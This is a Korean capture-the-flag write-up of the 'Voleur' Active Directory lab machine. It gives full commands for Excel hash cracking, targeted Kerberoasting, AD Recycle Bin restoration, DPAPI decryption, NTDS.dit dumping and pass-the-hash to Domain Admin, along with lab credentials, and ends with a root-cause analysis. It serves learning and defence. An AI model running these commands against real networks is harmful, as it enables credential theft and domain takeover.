# Voleur

## Overview

| 항목 | 내용 |
|------|------|
| 머신 이름 | Voleur |
| OS | Windows (Active Directory) |
| 난이도 | Medium |
| 주요 취약점 | Targeted Kerberoasting (WriteSPN), DPAPI 크리덴셜 복호화, NTDS.dit 덤프 |
| 주요 기술 | Kerberos-only 환경 enumeration, SMB 공유 분석, Office 파일 해시 크래킹, AD 삭제 객체 복구, SSH over WSL |

Voleur은 실제 Windows 모의해킹 시나리오를 기반으로 설계된 Medium 난이도 Active Directory 머신이다. "assumed breach" 시나리오로, 공격자는 저권한 도메인 사용자 크리덴셜을 초기값으로 제공받는다. 머신 이름 Voleur는 프랑스어로 "도둑"을 의미하며, 공격 체인 전반에 걸쳐 자격증명 탈취와 lateral movement가 핵심 테마다.

NTLM 인증이 비활성화된 Kerberos-only 환경에서 SMB 공유의 암호화된 Excel 파일을 크래킹하여 서비스 계정 크리덴셜을 확보한다. svc_ldap의 WriteSPN 권한을 이용한 Targeted Kerberoasting으로 svc_winrm 계정을 탈취해 초기 셸을 획득한다. 이후 AD Recycle Bin에서 삭제된 사용자를 복구하고, DPAPI 마스터키로 크리덴셜 블롭을 복호화하여 jeremy.combs 계정을 확보한다. 최종적으로 WSL을 통해 Linux 서브시스템의 SSH에 접속한 뒤 NTDS.dit 백업에서 Administrator NT 해시를 추출해 도메인을 장악한다.

---

## Target Information

| 항목 | 내용 |
|------|------|
| 제공 크리덴셜 | ryan.naylor / HollowOct31Nyt |
| 도메인 | voleur.htb |
| 호스트명 | DC |
| 인증 방식 | Kerberos only (NTLM 비활성화) |

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV 10.129.37.32
```



열린 포트 조합이 전형적인 Active Directory Domain Controller 프로파일을 보여준다.

| 포트 | 서비스 | 비고 |
|------|--------|------|
| 53/tcp | DNS | DC가 DNS 서버 역할 수행 |
| 88/tcp | Kerberos | 도메인 인증 |
| 135/tcp | RPC | 원격 프로시저 호출 |
| 139/445 | SMB | 파일 공유, IPC |
| 389/636 | LDAP/LDAPS | 디렉터리 조회 |
| 464/tcp | kpasswd | Kerberos 비밀번호 변경 |
| 2222/tcp | SSH | **Ubuntu 20.04** — Windows DC에서 비정상적. WSL 또는 Linux 서브시스템 존재 시사 |
| 3268/3269 | Global Catalog | Forest-wide 조회 |
| 5985/tcp | WinRM | 원격 PowerShell |

포트 2222의 OpenSSH가 Ubuntu 배너를 반환한다는 점이 핵심 단서다. 일반적인 Windows DC에는 존재하지 않는 서비스로, 내부에 WSL(Windows Subsystem for Linux)이 동작하고 있음을 시사한다. 또한 `smb2-security-mode`에서 `Message signing enabled and required`가 확인되어 SMB Relay 공격은 불가능하다.

### NTLM 비활성화 확인

제공된 크리덴셜로 SMB 인증을 시도하면 `STATUS_NOT_SUPPORTED`와 `NTLM:False`가 반환된다.



도메인이 NTLM 인증을 완전히 차단하고 Kerberos만 허용한다. 이후 모든 도구에 `-k` 옵션을 사용해 Kerberos 인증을 강제해야 한다.

### Kerberos 환경 구성

nmap 결과에서 `clock-skew: 7h59m58s`가 확인된다. Kerberos는 클라이언트와 KDC의 시간 차이가 5분을 초과하면 인증을 거부하므로 작업 전 시간 동기화가 필수다.

```bash
echo "10.129.37.32 voleur.htb dc.voleur.htb DC" | sudo tee -a /etc/hosts
sudo timedatectl set-ntp false
sudo ntpdate -u 10.129.37.32
```

krb5.conf를 작성해 Kerberos 클라이언트가 올바른 KDC를 참조하도록 설정한다.



### TGT 발급 및 SMB Enumeration

시간 동기화 직후 TGT를 발급한다. `&&`로 연결해 동기화 완료 직후 즉시 발급함으로써 clock skew가 다시 벌어질 여지를 없앤다.

```bash
sudo ntpdate -u 10.129.37.32 && \
  impacket-getTGT voleur.htb/ryan.naylor:'HollowOct31Nyt' -dc-ip 10.129.37.32

export KRB5CCNAME=$(pwd)/ryan.naylor.ccache
```



TGT가 `ryan.naylor.ccache`에 저장됐다. `KRB5CCNAME` 환경변수로 등록하면 이후 impacket 도구들이 자동으로 이 캐시를 참조한다.

TGT를 캐시에 로드한 뒤 `-k` 옵션으로 Kerberos 인증을 강제하여 SMB 공유 목록을 조회한다.

```bash
netexec smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
```



| 공유 | 권한 | 분류 |
|------|------|------|
| ADMIN$ | 없음 | 기본 관리 공유 |
| C$ | 없음 | 기본 관리 공유 |
| Finance | 없음 | 비표준 공유 — 접근 불가 |
| HR | 없음 | 비표준 공유 — 접근 불가 |
| IPC$ | READ | 표준 IPC |
| **IT** | **READ** | 비표준 공유 — **우선 탐색 대상** |
| NETLOGON | READ | 표준 DC 공유 |
| SYSVOL | READ | 표준 DC 공유 |

---

## Foothold

### IT 공유 탐색 및 파일 발견

impacket-smbclient로 IT 공유에 접속한다.

```bash
impacket-smbclient -k -no-pass ryan.naylor@dc.voleur.htb
```



IT 공유 루트에 `First-Line Support` 디렉터리가 존재한다. 해당 디렉터리로 이동하면 `Access_Review.xlsx` 파일이 발견된다.



파일명에서 사용자, 권한, 접근 정보가 포함되어 있을 가능성이 높다. 로컬로 다운로드한다.

```bash
get "Access_Review.xlsx"
```

### Excel 파일 패스워드 크래킹

파일을 LibreOffice로 열면 패스워드 보호가 적용되어 있다.



`office2john`으로 파일에서 크래킹 가능한 해시를 추출한다.


추출된 해시 형식이 `$office$*2013*`이므로 john으로 크래킹한다.

```bash
john xlsx.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



패스워드 `football1`이 크래킹됐다.

### Access_Review.xlsx 분석

LibreOffice에서 패스워드를 입력하면 파일 내용이 표시된다.



파일에는 도메인 사용자, 권한, 크리덴셜 노트가 포함되어 있다.

**일반 사용자**

| 사용자 | 직책 | 권한 | 비고 |
|--------|------|------|------|
| Ryan.Naylor | First-Line Support | SMB | Kerberos Pre-Auth 비활성화 |
| Marie.Bryant | First-Line Support | SMB | |
| Lacey.Miller | Second-Line Support | Remote Management Users | |
| ~~Todd.Wolfe~~ | Second-Line Support | Remote Management Users | 퇴사자. 비번 리셋 후 계정 삭제. 초기화 패스워드: `NightT1meP1dg3on14` |
| Jeremy.Combs | Third-Line Support | Remote Management Users | Software 폴더 접근 권한 보유 |
| Administrator | Admin | Domain Admin | 일상 사용 금지 |

**서비스 계정**

| 계정 | 용도 | 비고 |
|------|------|------|
| svc_backup | Windows Backup | Jeremy에게 문의 |
| svc_ldap | LDAP Services | **P/W: `M1XyC9pW7qT5Vn`** |
| svc_iis | IIS Administration | **P/W: `N5pXyW1VqM7CZ8`** |
| svc_winrm | Remote Management | 최근 Lacey가 리셋 — 비밀번호 미확인 |

svc_ldap과 svc_iis의 패스워드가 평문으로 노출되어 있다.

### svc_ldap TGT 발급

```bash
sudo ntpdate -u 10.129.37.32 && \
  impacket-getTGT voleur.htb/svc_ldap:'M1XyC9pW7qT5Vn' -dc-ip 10.129.37.32

export KRB5CCNAME=$(pwd)/svc_ldap.ccache
```



### Targeted Kerberoasting — WriteSPN 악용

bloodhound-python으로 도메인 데이터를 수집하고 BloodHound로 분석하면 다음 공격 경로가 식별된다.

**SVC_LDAP → WriteSPN → SVC_WINRM**

svc_ldap은 svc_winrm 계정의 `servicePrincipalName` 속성에 대한 WriteSPN 권한을 보유하고 있다. 일반적인 Kerberoasting은 이미 SPN이 등록된 계정을 대상으로 하지만, WriteSPN 권한이 있으면 대상 계정에 임의 SPN을 등록한 뒤 서비스 티켓(ST)을 요청할 수 있다. ST는 대상 계정의 패스워드 해시로 암호화되어 있어 오프라인 크래킹이 가능하다.

targetedKerberoast 도구로 공격을 실행한다.

```bash
python3 targetedKerberoast.py -d voleur.htb --dc-host DC \
  -u svc_ldap@voleur.htb -k --no-pass -o hashes.txt
```



lacey.miller의 TGS 해시가 먼저 출력된다.



이어서 svc_winrm의 TGS 해시가 출력된다.



두 계정의 해시가 `hashes.txt`에 저장됐다. john으로 크래킹한다.

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



```
svc_winrm : AFireInsidedeOzarctica980219afi
```

svc_winrm의 패스워드가 크래킹됐다. lacey.miller는 크래킹되지 않았지만 svc_winrm으로 WinRM 접속이 가능하다.

### svc_winrm WinRM 접속 및 user.txt 획득

```bash
sudo ntpdate -u 10.129.37.32 && \
  impacket-getTGT voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi' \
  -dc-ip 10.129.37.32

export KRB5CCNAME=$(pwd)/svc_winrm.ccache
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB
```



`*Evil-WinRM* PS C:\Users\svc_winrm\Documents>` — svc_winrm으로 WinRM 셸 획득에 성공했다.

```powershell
type C:\Users\svc_winrm\Desktop\user.txt
```



---

## Lateral Movement

### Todd.Wolfe 계정 복구 — AD Recycle Bin 악용

Excel 파일 분석에서 svc_ldap이 `Restore_Users` 그룹의 멤버임이 확인된다. 이 그룹은 AD Recycle Bin에서 삭제된 객체를 복구하는 `Reanimate-Tombstones` 권한을 보유한다.

RunasCs.exe를 업로드하여 svc_winrm 컨텍스트에서 svc_ldap의 권한으로 명령을 실행한다.

```powershell
upload RunasCs.exe
```



업로드 완료 후 삭제된 AD 객체를 조회한다.

```powershell
./RunasCs.exe svc_ldap M1XyC9pW7qT5Vn "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Get-ADObject -Filter 'isDeleted -eq `$true' -IncludeDeletedObjects -Properties distinguishedName,objectSid -SearchBase 'CN=Deleted Objects,DC=voleur,DC=htb'"
```



Todd Wolfe의 삭제된 계정 객체가 확인된다. 출력에서 `DistinguishedName`이 복구에 필요한 전체 경로다.

```
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
```

이 DistinguishedName을 인자로 `Restore-ADObject`를 실행해 계정을 복구한다.

```powershell
./RunasCs.exe svc_ldap M1XyC9pW7qT5Vn "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Restore-ADObject 'CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb'"
```



`No output received from the process` — 오류 없이 완료됐다. 출력이 없는 것이 정상이며 복구 성공을 의미한다.

### DPAPI 크리덴셜 복호화 — jeremy.combs 탈취

Todd.Wolfe TGT를 발급하고 IT 공유에서 아카이브된 사용자 프로필을 탐색한다.

```bash
sudo ntpdate -u 10.129.37.32 && \
  impacket-getTGT voleur.htb/todd.wolfe:'NightT1meP1dg3on14' \
  -dc-ip 10.129.37.32

export KRB5CCNAME=$(pwd)/todd.wolfe.ccache
impacket-smbclient -k -no-pass todd.wolfe@dc.voleur.htb
```

`IT/Second-Line Support/Archived Users/todd.wolfe` 경로에서 Windows DPAPI 관련 파일 두 개를 발견하고 다운로드한다.

```
# cd AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110
# get 08949382-134f-4c63-b93c-ce52efc0aa88   ← DPAPI 마스터키

# cd ..\..\Credentials
# get 772275FAD58525253490A9B0039791D3         ← 크리덴셜 블롭
```



**DPAPI(Data Protection API)**는 Windows에서 사용자의 패스워드를 마스터키로 파생시켜 민감한 데이터를 암호화하는 시스템이다. 마스터키 파일은 사용자의 SID와 패스워드로 복호화할 수 있으며, 이를 통해 크리덴셜 블롭의 평문을 얻을 수 있다.

먼저 Todd.Wolfe의 SID와 패스워드로 마스터키를 복호화한다.

```bash
impacket-dpapi masterkey \
  -file 08949382-134f-4c63-b93c-ce52efc0aa88 \
  -sid S-1-5-21-3927696377-1337352550-2781715495-1110 \
  -password NightT1meP1dg3on14
```



`Decrypted key: 0xd2832547...` — 마스터키 복호화에 성공했다. 이 키로 크리덴셜 블롭을 복호화한다.

```bash
impacket-dpapi credential \
  -file 772275FAD58525253490A9B0039791D3 \
  -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```



```
Username : jeremy.combs
Password : qT3V9pLXyN7W4m
```

크리덴셜 블롭 Target이 `Jezzas_Account`인 것으로 보아 Jeremy가 자신의 계정 패스워드를 Windows 자격 증명 관리자에 저장해둔 것이다.

### jeremy.combs WinRM 접속

```bash
sudo ntpdate -u 10.129.37.32 && \
  impacket-getTGT voleur.htb/jeremy.combs:'qT3V9pLXyN7W4m' \
  -dc-ip 10.129.37.32

export KRB5CCNAME=$(pwd)/jeremy.combs.ccache
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB
```


`*Evil-WinRM* PS C:\Users\jeremy.combs\Documents>` — jeremy.combs로 접속 성공했다.

---

## Privilege Escalation

### id_rsa 발견 및 WSL SSH 접속

jeremy.combs로 접속 후 `C:\IT\Third-Line Support`를 탐색한다.

```powershell
cd "C:\IT\Third-Line Support"
dir
type Note.txt.txt
```



메모에서 관리자가 WSL을 통한 Linux 백업 도구 도입을 실험 중임이 확인된다. nmap에서 발견한 포트 2222의 Ubuntu SSH와 연결되는 단서다. 같은 디렉터리에 `id_rsa` 파일이 존재한다.

```powershell
download id_rsa
```



`Info: Download successful!` — id_rsa가 로컬에 저장됐다. 포트 2222의 Ubuntu SSH에 svc_backup으로 접속을 시도한다.

```bash
chmod 600 ~/targetedKerberoast/id_rsa
ssh -i ~/targetedKerberoast/id_rsa svc_backup@10.129.37.32 -p 2222
```



`svc_backup@DC:~$` — Ubuntu 20.04 LTS 환경에 접속했다. 호스트명이 `DC`로 Windows DC와 동일하며, 이 환경은 WSL을 통해 Windows 파일시스템을 `/mnt/c/`에 마운트하고 있다.

### NTDS.dit 백업 추출

`/mnt/c/IT/Third-Line Support/Backups` 경로에 AD 백업 파일들이 존재한다. SCP로 로컬에 복사한다.

```bash
scp -i id_rsa -P 2222 \
  "svc_backup@10.129.37.32:/mnt/c/IT/Third-Line Support/Backups/registry/SECURITY" \
  ./SECURITY

scp -i id_rsa -P 2222 \
  "svc_backup@10.129.37.32:/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" \
  ./SYSTEM

scp -i id_rsa -P 2222 \
  "svc_backup@10.129.37.32:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit" \
  ./ntds.dit
```



세 파일 모두 전송 완료됐다.

### secretsdump로 도메인 해시 추출

```bash
impacket-secretsdump \
  -ntds ntds.dit \
  -system SYSTEM \
  -security SECURITY \
  LOCAL
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
```

NTDS.dit에서 도메인 전체 계정의 NT 해시가 추출됐다. Administrator의 NT 해시를 확보했다.

### Pass-the-Hash로 Administrator 접속 및 root.txt 획득

NT 해시를 사용해 TGT를 발급받아 Administrator로 접속한다.

```bash
sudo ntpdate -u 10.129.37.32 && \
  impacket-getTGT voleur.htb/administrator \
  -hashes :e656e07c56d831611b577b160b259ad2 \
  -dc-ip 10.129.37.32

export KRB5CCNAME=$(pwd)/administrator.ccache
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB
```



`*Evil-WinRM* PS C:\Users\Administrator\Documents>` — 도메인 관리자 권한으로 접속 성공했다.

```powershell
type C:\Users\Administrator\Desktop\root.txt
```



---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| 민감 정보 노출 | IT SMB 공유 | 패스워드가 포함된 Excel 파일이 접근 가능한 공유에 암호화 없이 저장 | A02 Cryptographic Failures |
| WriteSPN 권한 오남용 | svc_ldap ACL | 서비스 계정에 불필요한 WriteSPN 권한이 부여되어 Targeted Kerberoasting 가능 | A05 Security Misconfiguration |
| DPAPI 크리덴셜 노출 | 아카이브 사용자 프로필 | 퇴사 처리 시 프로필 데이터가 완전히 삭제되지 않아 DPAPI 크리덴셜 블롭 접근 가능 | A01 Broken Access Control |
| AD Recycle Bin 악용 | Restore_Users 그룹 권한 | 삭제된 계정을 복구할 수 있는 그룹 권한이 비관리자 계정에 부여 | A01 Broken Access Control |
| NTDS.dit 백업 노출 | WSL 백업 서비스 | NTDS.dit 백업 파일이 일반 서비스 계정이 접근 가능한 경로에 저장 | A01 Broken Access Control |
| SSH 키 관리 미흡 | Third-Line Support 공유 | 백업 서비스 계정의 SSH 개인키가 공유 폴더에 평문 저장 | A02 Cryptographic Failures |

### 실제 환경에서의 위험성

WriteSPN 기반 Targeted Kerberoasting은 일반적인 Kerberoasting과 달리 이미 SPN이 등록된 계정만을 대상으로 하지 않는다. 특정 계정에 대한 WriteSPN 권한만 있으면 공격자가 원하는 계정에 SPN을 등록한 뒤 해시를 추출할 수 있어, 모든 도메인 계정이 잠재적인 공격 대상이 된다. AD 환경에서 서비스 계정에 대한 ACL을 정기적으로 감사하고 불필요한 쓰기 권한을 제거해야 한다.

DPAPI 크리덴셜 복호화 공격은 사용자가 Windows 자격 증명 관리자에 저장한 패스워드를 오프라인에서 복호화할 수 있음을 보여준다. 퇴사 처리 시 프로필 데이터를 완전히 삭제하지 않으면, 아카이브된 DPAPI 파일이 장기간 공격 벡터로 남게 된다.

WSL 환경에서 Windows 파일시스템이 `/mnt/c/`에 마운트된 상태로 NTDS.dit 같은 민감한 파일에 접근 가능하다면, 사실상 도메인 전체를 위험에 노출시키는 것과 같다. 백업 서비스 계정에는 필요한 최소 권한만 부여하고, NTDS.dit 백업은 별도의 접근 제어가 적용된 격리된 저장소에 보관해야 한다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 서비스 열거, DC 및 WSL 식별 | nmap |
| Kerberos 환경 구성 | 시간 동기화, krb5.conf 설정, TGT 발급 | ntpdate, impacket-getTGT |
| SMB 공유 열거 | Kerberos 인증 기반 공유 목록 및 파일 탐색 | netexec, impacket-smbclient |
| Excel 크래킹 | Office 해시 추출 및 wordlist 크래킹 | office2john, john |
| 크리덴셜 분석 | 스프레드시트에서 계정 및 패스워드 식별 | LibreOffice |
| Targeted Kerberoasting | WriteSPN 권한으로 SPN 등록 후 TGS 해시 추출 | targetedKerberoast.py |
| 해시 크래킹 | TGS 해시 오프라인 크래킹 | john |
| Initial Shell | svc_winrm TGT로 WinRM 접속 | evil-winrm |
| AD 객체 복구 | Restore_Users 권한으로 AD Recycle Bin 복구 | RunasCs, PowerShell |
| DPAPI 복호화 | 마스터키 복호화 후 크리덴셜 블롭 해독 | impacket-dpapi |
| Lateral Movement | jeremy.combs TGT로 WinRM 접속 | evil-winrm |
| SSH 키 탈취 | 공유 폴더에서 svc_backup id_rsa 다운로드 | evil-winrm |
| WSL SSH 접속 | Ubuntu WSL에 SSH 접속, Windows 파일시스템 마운트 확인 | ssh |
| NTDS.dit 추출 | 백업 파일 SCP 전송 | scp |
| 해시 덤프 | NTDS.dit에서 전체 도메인 해시 추출 | impacket-secretsdump |
| Domain Admin | Administrator NT 해시로 TGT 발급 후 접속 | impacket-getTGT, evil-winrm |
